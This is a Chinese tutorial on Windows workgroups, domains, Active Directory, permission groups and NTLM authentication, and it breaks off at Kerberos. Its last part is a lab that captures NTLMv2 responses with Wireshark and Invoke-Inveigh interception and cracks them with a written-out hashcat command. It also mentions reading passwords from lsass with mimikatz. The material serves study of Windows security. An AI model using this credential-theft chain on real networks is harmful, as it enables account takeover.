# 工作组

## 什么是工作组

工作组是一种简单的网络设备组织方法，通常用于家庭网络或小型企业网络。它允许网络上的计算机和设备共享资源，如文件和打印机。工作组中的每台计算机都负责其安全性，并且必须 individually管理，这与另一种组织方法——域，有所不同

在大型企业或组织中，工作组可能不足以满足需求，因为它们需要更复杂的用户和资源管理。在这种情况下，通常会使用域来管理网络。在域中，一个或多个计算机（称为域控制器）负责对整个网络的管理

	


## 加入或创建工作组

以Windows10为例，在打开的菜单中输入"系统"并在搜索结果中点击"系统"选项（在"控制面板"下）。

在新的窗口中，你应该能看到关于你的系统的基本信息。在"计算机名、域和工作组设置"区域中，点击"更改设置"

在大多数Windows操作系统中，创建一个工作组是相当简单的。你只需将计算机设置为属于这个工作组，如果工作组尚不存在，系统将自动创建它	


## 退出工作租	

只要将工作组名称改动即可。不过在网上别人照样可以访问你的共享资源。你也可以随便加入同一网络上的任何其它工作组。“工作组”就像一个可以自由进入和退出的“社团”，方便同一组的计算机互相访问


## 访问工作组

在Windows环境中，你可以通过这些步骤访问同一网络内的工作组。打开文件资源管理器，在左侧的导航面板中，找到并点击"网络"

如果你不能看到其他计算机，可能是因为网络发现或文件和打印机共享功能被关闭了，如下图所示：


在这种情况下，你需要在"网络和共享中心"中打开这些功能


# 域

## 什么是域

Windows域是一个由中央数据库管理的计算机网络模型，其中所有的用户账户、计算机、打印机和其他安全实体均注册于一个或多个被称为域控制器的中央计算机。认证过程在这些域控制器上执行。在域环境中，每个用户都拥有一个唯一的账户，并可以对该账户分配在域内的资源访问权限。

域，也就是Domain，是一个设定了安全边界的计算机群体，即在两个不同的域中，一个域的用户无法访问另一个域的资源。域可以被视为工作组的升级版，其安全管理和控制机制要比工作组严谨许多。用户需要以合法身份登录域才能访问其资源，而用户对于域内资源的访问权限则取决于其在域内的身份。


## 什么是域控制器

域控制器，简称为DC，是在域中扮演管理服务器角色的计算机。域控制器中储存有构成该域的用户账户、密码、所属计算机等信息的数据库。当计算机连接到域时，域控制器会首先验证这台计算机是否属于该域，以及用户使用的登录账号是否存在、密码是否正确。若以上任何一项信息不正确，域控制器便会拒绝用户通过该计算机进行登录。只有用户成功登录，才能访问服务器中的资源。

域控制器充当着整个域的通信枢纽，所有权限验证都在域控制器上进行。也就是说，域内所有用于身份验证的账号和密码哈希值都存储在域控制器中

通常,在一个地理位置固定的小公司里,建立一个域就可以满足需求。在一个域内,一般要 有至少两台域服务器,一台作为DC,另一台作为备份DC

		


## 父域和子域

在域结构中，"父域"和"子域"是常见的术语，也被称为"父子域"。这些术语主要用于描述域的层级关系。

- 父域：在一个主域（或父域）下可以建立一个或多个子域。父域是高级域，可以具有一个或多个子域。
- 子域：子域是在父域下创建的域。子域继承了父域的所有策略和设置（尽管某些设置可以在子域级别被重写或改变）。子域的主要作用是进一步细分网络以便于管理。例如，一个大学可能拥有一个父域，然后为每个学院创建一个子域。

在DNS命名中，子域和父域的关系表现得非常清楚。例如，如果有一个父域叫做"university.edu"，那么"engineering.university.edu"就是这个父域的子域	


## 域树

域树（Domain Tree）是Active Directory中的一种结构，用于表示域之间的层级关系。域树由一个或多个域组成，这些域共享一个连续的命名结构。

在域树结构中，你有一个根域，它是域树的最顶层。所有其他的域都是该根域的子域或者子域的子域，如下图所示

	


## 域森林

域森林（Domain Forest）是由多个域树组成的集合，每个域树都有自己独立的命名空间。这些域树通过建立信任关系彼此相连，形成一个大的网络环境

在如下示例中，"abc.com"和"abc.net"是两个独立的域树。由于它们的命名空间不同，因此不能将一个作为另一个的子域。相反，它们可以通过建立信任关系，一起构成一个域森林


​		

## 域名服务器

域名服务器（Domain Name Server，DNS）是互联网的一种核心服务，负责将人类可读的网站名称。例如将www.google.com转换成机器可以理解的ip地址，这个过程被称为DNS解析


# 活动目录

## 什么是活动目录

活动目录（Active Directory，AD） 是由微软开发的一种目录服务，它用于Windows域网络。Active Directory的主要目标是提供中央位置，通过这个位置，可以执行各种网络管理和存储任务。在一个典型的网络环境中，Active Directory提供一种方法来处理用户帐户，计算机帐户，安全证书，以及其他相关信息。

	

​		

活动目录的特性如下所示：

- Active Directory是一个分层结构，分为多个层次，包括森林，树，域，以及组织单位。这种结构允许管理员按组织需求将资源进行有效的组织和管理
- Active Directory利用Kerberos协议为用户和计算机提供安全的认证服务。它还支持使用访问控制列表对目录对象进行详细的权限设置
- Active Directory使用组策略对象（Group Policy Objects, GPOs）为网络环境提供集中的配置和策略管理。这使得管理员可以按组或按用户帐户控制设置，如密码策略，桌面设置，或者安装的软件


## 什么组织单元

组织单元（Organizational Units，OU）是Active Directory的一个重要概念。在Active Directory的上下文中，组织单元是用于组织和管理网络资源，如用户，组和计算机的一种容器

假设你有一个名为“Sales”的OU，你可以为这个OU创建一个组策略，该策略规定Sales OU内的所有用户都不能安装新的软件。这样，只要将用户帐户放在Sales OU内，就可以应用这个策略，而无需对每个用户单独进行配置

如下图所示为创建组织单元：

	

	


## 委派控制

假如在财务部门，我们有20名员工，不可能每次出现问题都去寻找网络管理员解决。因此，我们需要实施一种叫做"委派控制"的策略。这个策略的核心思想是指定一个财务部门的代表，并赋予他必要的权限，让他能够管理财务部门的计算机和用户。这样，他可以作为财务部门的第一线技术支持，处理常见的技术问题，从而减轻网络管理员的工作负担。

			

可以指定想要委派控制的用户和组

	


随后选定委派的权限

	

​	

# 域内权限划分

## 组分类

在Active Directory环境中，组（Group）被定义为用户账号的集合。这个概念的优势在于，管理员可以给整个组分配权限，而无需单独为每个用户设定。例如，代替逐一设定每个用户的访问权限，管理员只需将相应的用户账户归入特定的安全组。通过设置安全组的访问权限，所有成员用户便能自动拥有相同的权限


### 域本地组

域本地组可以包含来自整个 Active Directory 林（包括所有域）的用户账户、全局组和通用组，以及本域中的其他域本地组。然而，它的作用范围主要在本域中，用于在本域内分配访问资源的权限。

以下是常见的域本地组：

| 用户组                               | 权限和功能                                                   |
| ------------------------------------ | ------------------------------------------------------------ |
| 管理员组 (Administrators)            | 无限制地访问计算机/域资源。拥有修改 Enterprise Admins、Schema admins 和 Domain admins 组成员关系的权限。这是最具权力的组，并在活动目录和域控制器中默认具有管理员权限。 |
| 远程登录组 (Remote Desktop Users)    | 拥有远程登录的权限。                                         |
| 打印机操作员组 (Print Operators)     | 拥有管理网络打印机的权限，包括创建、管理及删除网络打印机。此外，他们可以在本地登录和关闭域控制器。 |
| 账号操作员组 (Account Operators)     | 可以创建和管理域中的用户和组，并为它们设置权限。此外，他们可以在本地登录域控制器。然而，他们不能更改 Administrators 或 Domain admins 组的账户，也不能修改这些组。默认情况下，此组没有成员。 |
| 服务器操作员组 (Server Operators)    | 拥有管理域服务器的权限，包括创建、管理、删除任意服务器的共享目录、管理网络打印机、备份任意服务器的文件、格式化服务器硬盘、锁定服务器、变更服务器的系统时间、关闭域控制器等。默认情况下，此组没有成员。 |
| 备份操作员组 (Backup Operators)      | 可在域控制器中执行备份和还原操作，同时可以在本地登录和关闭域控制器。默认情况下，此组没有成员。 |
| 域管理员组 (Domain Admins)           | 在所有加入域的服务器(工作站)、域控制器和活动目录中默认拥有完整的管理员权限。这个组将被添加到所在域的 Administrators 组中，从而继承 Administrators 组的所有权限。同时，默认会被添加到每台域成员计算机的本地 Administrators 组中，因此可以获得域中所有计算机的所有权限。 |
| 企业系统管理员组 (Enterprise Admins) | 这是域森林根域中的一个组，它在域森林中的每个域内都是 Administrators 组的成员，因此对所有域控制器都有完全访问权。 |
| 架构管理员组 (Schema admins)         | 这是域森林根域中的一个组，它可以修改活动目录和域森林的模式，为活动目录和域控制器提供完整的权限。 |
| 域用户组 (Domain users)              | 所有域成员都在此组中。任何创建的用户账号默认都属于 Domain Users 组，任何创建的计算机账号都属于 Domain Computers 组。因此，如果想让所有账号都获得某种资源存取权限，可以将该权限指定给此组，或者让该组成为具有该权限的组的成员。默认是内置域 Users 组的成员。 |


### 全局组

全局组的成员只能是来自同一域的用户账户和全局组。这种组在 Active Directory 林中的所有域都是可用的，但全局组主要用于在一个域中组织用户，然后可以将全局组作为成员添加到其他域的域本地组中，以授予其在其他域中的资源访问权限


### 通用组

通用组的成员可以来自 Active Directory 林中的任何域，包括用户账户、全局组和其他通用组。通用组在整个 Active Directory 林中都是可用的，可用于组织跨多个域的用户，并可以将通用组作为成员添加到任何域的域本地组中，以授予其在那些域中的资源访问权限


### 总结

- 域本地组的成员可以来自全林，作用范围在本域。
- 全局组的成员来自本域，可以在全林的所有域中使用。
- 通用组的成员可以来自全林，也可以在全林的所有域中使用。


## A-G-DL-P策略

**A-G-DL-P 策略**涉及用户账户、全局组、域本地组和权限分配的一种方法，其中：

- **A** 代表用户账户（Account）
- **G** 代表全局组（Global Group）
- **DL** 代表域本地组（Domain Local Group）
- **P** 代表资源权限（Permission）

根据这一策略，我们首先将用户账户添加到全局组中，再将全局组添加到域本地组中，最后为域本地组分配资源权限。这种策略的优势在于，其结构化的方法极大简化了权限管理。一旦设定了 A-G-DL-P 策略，当需要给用户添加特定权限时，只需将用户添加到相应的域本地组即可

我们有多个域，其中在 hack.com 域中设置了一个域本地组，该组具有使用特定打印机的权限。假设 c1.hack.com 域中的用户希望使用该打印机，我们需要将这个用户添加到 c1.hack.com 域的全局组中，再将 c1.hack.com 域的全局组添加到 hack.com 域的域本地组中。这种配置方式遵循了 A-G-DL-P 策略，保证了权限分配的高效性和可管理性。


# 安全域的划分

安全域的划分目的在于将安全等级相同的计算机划入同一个网段。这个网段内的计算机共享同一网络边界，在该网络边界上通过防火墙实施网络访问控制策略，对外部IP访问权限和对内部访问外部的IP及网段进行控制，以此最小化网络风险。在遭受攻击时，这些控制措施可以将威胁隔离，降低对域内计算机的影响。

DMZ，全称为"Demilitarized Zone"，中文常译作“非军事化区”或“隔离区”，在计算机网络领域中，它是指在防火墙后方设立的一个独立的网络区域，这个区域被设计为供外部用户访问，如公共服务器（Web服务器，邮件服务器等）所在地

一个由路由器连接的内网可被划分为三个区域：

- **安全级别最高的内网**
- **安全级别中等的DMZ()**
- **安全级别最低的外网**



​	

## 权限策略

- **内网可以访问外网**：这允许内网用户自由访问外网。此策略需要防火墙执行NAT。
- **内网可以访问DMZ**：此策略使内网用户可以使用或管理DMZ中的服务器。
- **外网不能访问内网**：这是防火墙的基本策略，内网中存储的是公司内部数据，这些数据一般是不允许外网用户访问的。若需访问，应通过VPN的方式进行。
- **外网可以访问DMZ**：由于DMZ中的服务器需要为外界提供服务，所以外网必须可以访问DMZ。同时，需要由防火墙来完成从对外地址到服务器实际地址的转换。
- **DMZ不能访问内网**：若不执行此策略，当攻击者攻陷DMZ时，内网将无法受到保护。
- **DMZ不能访问外网**：此策略有例外，如当DMZ中放置了邮件服务器，就需要允许访问外网，否则邮件服务器无法正常工作。


## 不同区域的安全管理

- **办公区**：是公司员工的日常工作区域，一般安装有防病毒软件、主机入侵检测产品等，办公区通常能访问DMZ。如果运维人员也在办公区，部分主机也能访问核心数据区。办公区由于人员众多、变动频繁，在安全管理上可能存在诸多漏洞，是攻击者进入内网的重要途径之一。
- **核心区**：存储企业最重要的数据、文档等信息资产，通过日志记录、安全审计等安全措施进行严密的保护，往往只有很少的主机能够访问。从外部直接访问核心区是非常困难的。一般来说，能够直接访问核心区的只有运维人员或者IT部门的主管，因此，攻击者会重点关注这些用户的信息。


# 域中计算机的分类

在域结构的网络中，计算机的身份是不平等的，有域控制器、成员服务器、客户机、独立服务器四种类型。

## 域控制器

域控制器（Domain Controller）是域网络中的核心，负责验证用户身份以及管理整个域的资源。在活动目录（Active Directory）环境中，域控制器存储了用户账户信息、计算机账户、安全策略等关键信息。


## 成员服务器

成员服务器（Member Server）是已经加入到某一域，但是不承担域控制器角色的服务器。它们可以提供各种服务，如文件共享、打印服务、应用服务等，但身份验证和权限管理等任务由域控制器处理。


## 客户机

客户机（Client）是域中的工作站或者个人电脑，它们被添加到域中并受到域控制器的管理。客户机上的用户需要通过域控制器验证其身份后，才能访问域内的资源。


## 独立服务器

独立服务器（Standalone Server）是不属于任何域的服务器，它在网络中完全独立，拥有自己的用户账户数据库，进行自身的用户身份验证和权限管理。独立服务器适合用在不需要集中管理的小型网络环境，或者出于某种安全原因需要将某些服务器与域网络隔离的场景。


# Windows认证

## 本地认证

### 本地认证流程

Windows的登录密码存储在系统本地的SAM（安全账户管理器）文件中。在登录Windows过程中，系统将对比用户输入的密码和SAM文件中的密码，如果匹配，则认证成功。

SAM文件位于 `%SystemRoot%\system32\config\` 目录下，负责存储本地所有用户的凭证信息。然而，由于其涉及到系统安全，不能随意查看。


	

以下是Windows本地认证流程的详细描述：

1. 用户在注销、重启或锁屏后，操作系统会触发`winlogon.exe`（Windows Logon Process）显示登录界面。这个程序是Windows NT用户登录程序，负责管理用户登录和退出。
2. 在登录界面中，用户输入用户名和密码。这些输入信息被`winlogon.exe`接收，并传递给`lsass.exe`进程（Local Security Authority Subsystem Service）。
3. 在`lsass.exe`进程中，密码会以明文形式暂时保存，然后被加密成NTLM Hash。
4. 然后，系统使用NTLM Hash与SAM数据库中存储的哈希进行比对，从而完成身份验证。

值得注意的是，`lsass.exe`是Windows系统的安全机制的一部分，负责处理本地安全和登录策略。在本地认证过程中，用户输入的密码会在此进程中以明文形式临时保存，然后被转换成NTLM Hash进行验证。这就是为什么我们可以使用像mimikatz这样的工具来获取明文密码，因为它是从这个进程中读取的。


### LM和NTLM哈希是什么

Windows操作系统使用两种方法来对用户明文密码进行加密处理，这两种方法分别是LM Hash和NTLM Hash。在域环境中，用户信息存储在`ntds.dit`文件中，并且密码以散列值的形式加密。Windows操作系统中的密码通常由LM Hash和NTLM Hash两部分组成，它们的结构通常如下所示：

```
username:RID:LM‐HASH:NT‐HASH
```

LM Hash，全称"LAN Manager Hash"，是微软为了提高Windows操作系统的安全性而采用的一种散列加密算法，其基于DES加密。然而，由于LM Hash相对容易被破解，微软在保持系统兼容性的同时，从Windows Vista和Windows Server 2008版本开始，默认禁用了LM Hash。

值得注意的是，LM Hash明文密码的长度被限定在14位以内，因此，要想停止使用LM Hash，只需将用户的密码设置为超过14位即可。如果LM Hash被禁用，通过工具抓取的LM Hash通常显示为“aad3b435b51404eeaad3b435b51404ee”，代表LM Hash为空值或被禁用。

另一方面，NTLM Hash是微软为了提高安全性同时保证兼容性而设计的另一种散列加密算法，基于MD4加密算法进行加密。从Windows Vista（个人版）和Windows Server 2003（服务器版）开始，Windows操作系统的认证方式均为NTLM Hash。

为了解决LM加密和身份验证方案中固有的安全弱点，Microsoft 于1993年在Windows NT 3.1中引入了NTLM协议。下面是各个版本对LM和NTLM的支持

	


### LM HASH生成原理

LM Hash是通过对明文密码进行一系列操作生成的。以下是使用"Admin@123"这个密码作为例子来说明LM Hash的生成过程：

**1.将明文口令转换成大写格式**：将明文口令"Admin@123"转换为大写格式后得到"ADMIN@123"。


**2.将大写字符串转换成16进制**：转换后的16进制形式为`41 44 4D 49 4E 40 31 32 33`。若密码长度不足14字节，用00进行补全，补全后为 `41 44 4D 49 4E 40 31 32 33 00 00 00 00 00`。


**3.将编码分为两组**：将补全后的编码分为两组，每组7字节，如下所示：

```
41 44 4D 49 4E 40 31 第一组
32 33 00 00 00 00 00 第二组
```


**4.转换为二进制并进行编码**：将每组7字节的十六进制转换成二进制，然后每7位为一组，末尾补0，再转换为十六进制，形成两组8字节的编码。

例如，对于第一组，操作如下：

将第一组的十六进制转换为二进制后，得到

```
01000001010001000100110101001001010011100100000000110001
```

然后，将这个二进制数分为8组，每7位一组，末尾补0，得到

```
10100010
00010010
10101000
10010100
01110010
00000000
01100010
```

最后，合并并转回十六进制，得到`40A212A894720062`。

对于第二组，操作类似，最后得到`3218C00000000000`。


**5.进行DES加密**：将以上两组字节编码分别作为DES加密的密钥，然后将`KGS!@#$%`的十六进制形式`4B47532140232425`作为DES加密的明文。最后，得到两组加密后的密文`6F08D7B306B1DAD4`和`B75E0C8D76954A50`，拼接起来即为最终的LM Hash：`6F08D7B306B1DAD4B75E0C8D76954A50`。

	


### NTLM Hash生成原理

NTLM Hash的生成过程主要包括将明文口令转换成Unicode格式，然后进行MD4加密。以下是使用"Admin@123"这个密码作为例子来详细解释NTLM Hash的生成过程：

**1.将明文口令转换成Unicode格式**：首先将明文口令"Admin@123"转换成十六进制格式，得到`41646D696E40313233`。然后，将每个字节后添加`0x00`，以转换为Unicode格式。转换后的结果为`410064006D0069006E004000310032003300`。

**2.进行MD4加密**：然后对上述Unicode字符串进行MD4加密，生成一个32位的十六进制数值串。加密后的结果为`570a9a65db8fba761c1008a51d4c95ab`。

这样，通过上述两步骤，我们就得到了对"Admin@123"进行NTLM Hash后的结果。

	


## 网络认证

### NTLM 协议

在常见的网络测试场景中，工作组内的计算机无法建立一个可信的信任关系，信息传输只能以点对点的方式进行。例如，如果主机 A 想要访问主机 B 的资源，它需要向主机 B 发送一个在主机 B 上存在的账户信息，主机 B 收到请求后会在本地进行验证，只有验证成功后，才会允许主机 A 访问相应的资源。

NTLM (NT Lan Manager) 协议是一种基于 "挑战/响应" 的认证机制，专门用于支持 Windows 的网络认证。其主要包括协商、质询和验证三个阶段：

- **协商**：此阶段主要解决历史遗留问题，如向下兼容性问题。在这个阶段，双方首先确定传输协议的版本和其他相关信息。
- **质询**：在协商阶段完成后，服务器将发送一个"质询"消息给客户端。这个消息中包含了服务器生成的随机值，即"挑战"。这个挑战将用于在后续的步骤中对客户端的身份进行验证
- **验证**：在此阶段，服务器将对客户端的响应进行检查。这涉及将返回的响应与服务器的预期响应进行比较。若相匹配，服务器确认身份验证成功，并授予访问权限。若不匹配，服务器将拒绝请求并返回错误

NTLMv1 和 NTLMv2 是 Windows NT LAN Manager (NTLM) 协议的两个版本，它们之间有一些重要的区别:

- **增强的哈希算法**：NTLMv1 使用较为简单的 MD4 对密码进行哈希处理，而 NTLMv2 引入了更复杂且安全的 HMAC-MD5 哈希函数。
- **增加的挑战/响应复杂性**：在 NTLMv2 中，挑战/响应过程中增加了客户端和服务器的时间戳以及随机数，增加了攻击的难度。
- **考虑服务器和域的验证**：在 NTLMv2 的响应生成过程中，考虑了服务器和域的名称，降低了伪造服务器和中间人攻击的可能性


### 认证流程

1.客户端首先向服务器发送一个用户名。这个用户名应该对应服务器上的一个存在的用户。

	


2.服务器在本地数据库中查询该用户是否存在。如果存在，服务器将生成一个16位的随机字符，即"Challenge"，然后使用查询到的用户的 NTLM Hash 对 Challenge 进行加密，生成 Challenge1。服务器会将 Challenge1 存储在本地，并将 Challenge 发送给客户端。

	


3.客户端在接收到 Challenge 后，会用发送的用户名对应的 NTLM Hash 对 Challenge 进行加密，生成 Response，并将 Response 发送给服务器。.服务器在收到 Response 后，会将其与本地存储的 Challenge1 进行比对，如果相同，则认证成功。否则，认证失败。

	


### NTLMv2获取及破解

#### 实验环境

本次实验的目的是在windows10与windows7建立网络连接时，通过特殊手段来获取NTLMv2数据包，即Windows7里用户的账号及密码

| 操作系统  | IP地址         | 账号密码        |
| --------- | -------------- | --------------- |
| Windows7  | 192.168.47.133 | hacker/qq123456 |
| Windows10 | 192.168.47.153 | 无              |


#### 使用wireshark抓包NTLMv2

在win10打开wireshark，在过滤规则输入`ip.addr == 192.168.47.133`，表示只显示其源或目标IP地址为192.168.47.133的数据包

在cmd命令输入如下命令与目标主机建立网络连接，这个命令试图使用用户名为"hacker"和密码为"qq123456"的凭证在本地计算机和位于IP地址192.168.47.133的远程主机之间建立网络连接

> 如果需要连接到该主机上的特定共享资源，你可以在主机地址后面添加资源名称，如`\\192.168.47.133\ShareName`。如果不指定共享资源名称，这个命令将会尝试连接到远程主机的默认共享资源`IPC$`
>
> 如果断开网络连接，可使用这条命令：`net use /delete *`

```
net use \\192.168.47.133 /u:hacker qq123456
```

 	


如下图所示，前四个数据包为协商，总的来说，这些包描述了SMB/SMB2协议的协商过程。在这个过程中，客户端和服务器沟通并确认了要使用的SMB版本，以及在接下来的通信中将使用的其他参数


下图这个数据包就是服务端返回客户端的challenge值，为`ca15c0d0a7865c01`


下一个数据包是客户端返回response值，如下所示：

```
a0a6d6621bc93723b423748d38f269ef0101000000000000d68fea283195d901e7ed98b6b61a77e200000000020012004800410043004b00450052002d0050004300010012004800410043004b00450052002d0050004300040012006800610063006b00650072002d0050004300030012006800610063006b00650072002d005000430007000800d68fea283195d90106000400020000000800300030000000000000000100000000200000b06cd8afe96d1170dc3cb22be5117ca2da87717c9525f90bf24df5c2a70973e30a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00340037002e003100330033000000000000000000
```


将上述获取到的信息组成NTLMv2格式，NTLMv2格式为`username::domain:challenge:HMAC‐MD5:blob`

> username：对应数据包中的user name
>
> domain：对应数据包中的Domain name，此处为Null
>
> HMAC-MD5：对应数据包中的NTProofStr
>
> blob：将数据包中的response值去掉HMAC-MD5的值，即为blob的值

	


最终组成的NTLMv2为如下所示：

```
hacker:::ca15c0d0a7865c01:a0a6d6621bc93723b423748d38f269ef:0101000000000000d68fea283195d901e7ed98b6b61a77e200000000020012004800410043004b00450052002d0050004300010012004800410043004b00450052002d0050004300040012006800610063006b00650072002d0050004300030012006800610063006b00650072002d005000430007000800d68fea283195d90106000400020000000800300030000000000000000100000000200000b06cd8afe96d1170dc3cb22be5117ca2da87717c9525f90bf24df5c2a70973e30a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00340037002e003100330033000000000000000000
```


#### 使用Invoke-Inveigh脚本窃取NTLMv2

 `Invoke-Inveigh` 是一个 PowerShell 脚本，用于在本地网络上执行网络钓鱼和中间人攻击。该脚本允许攻击者拦截和窃取目标计算机上的凭据

使用管理员权限打开powershell并进入 `Invoke-Inveigh`的目录，使用`Import-Module .\Inveigh.psd1`导入脚本，在此期间你可能出现如下错误，其原因是PowerShell 的执行策略（Execution Policy）限制导致的，默认情况下，PowerShell 的执行策略设置为 Restricted，即不允许执行任何脚本

	


可以将 PowerShell 的执行策略设置为允许任何脚本运行：`Set-ExecutionPolicy Unrestricted`，随后再执行导入脚本命令

	


使用脚本开启监听，并将监听结果打印至控制台上：`Invoke-Inveigh -ConsoleOutput Y`

	


输入命令建立网络连接，此时在powershell界面可以看到抓取到的NTLMv2数据


#### 使用hashcat破解NTLMv2

打开kali使用hashcat工具对其进行破解, 这里你需要一个强大的密码字典，且密码字典的后缀最好是`.list`，因为我用`.txt`后缀运行失败了

```
hashcat -m 5600 hacker:::ca15c0d0a7865c01:a0a6d6621bc93723b423748d38f269ef:0101000000000000d68fea283195d901e7ed98b6b61a77e200000000020012004800410043004b00450052002d0050004300010012004800410043004b00450052002d0050004300040012006800610063006b00650072002d0050004300030012006800610063006b00650072002d005000430007000800d68fea283195d90106000400020000000800300030000000000000000100000000200000b06cd8afe96d1170dc3cb22be5117ca2da87717c9525f90bf24df5c2a70973e30a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00340037002e003100330033000000000000000000 password.list --force --self-test-disable
```

> - `-m` ：用于指定哈希类型。每种哈希类型都有一个相应的数字编号。例如，`-m 0`表示MD5哈希，`-m 1000`表示NTLM哈希，`-m 5600`表示NetNTLMv2哈希
> - `--force`：这个参数会让Hashcat忽略一些警告或者错误，强制执行命令
> - `--self-test-disable`：这个参数会禁用Hashcat的自我测试功能


密码破解成功，如下图所示：


在此期间你可能会出现此类错误：`hashcat Device #1: Not enough allocatable device memory for this attack`，解决方法是将内存提升至4G，并内处理器数量设置为1个		

	


## 域认证

### 	什么是Kerberos协议

Kerberos是一种网络身份验证协议，主要用于在非安全网络环境中（如互联网）验证用户身份

